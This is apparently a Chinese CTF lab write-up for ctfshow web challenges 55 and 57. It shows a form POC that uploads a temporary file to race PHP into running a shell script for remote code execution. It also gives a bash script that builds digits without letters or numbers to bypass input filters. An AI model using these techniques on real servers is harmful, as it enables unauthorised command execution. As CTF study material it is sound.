

# 上传临时文件

利用条件竞争实现rce

构造post提交数据包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">

<!--替换为目标url-->

    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```


上传文件，抓包，然后修改上传文件内容为sh脚本

利用 . 执行sh脚本实现rce


详见ctfshow web入门 web55


参考

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）-CSDN博客](https://blog.csdn.net/miuzzx/article/details/109143413)

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)


# 无字母数字利用$(())拼接数字

```
#!/bin/bash
result=""
for i in `seq $(($1 + 1))`;do
        result+="\$((~\$(())))"
done

result_1="\$(($result))"
result_2="\$((~$result_1))"
echo $result_2
```




详见ctfshow web入门57
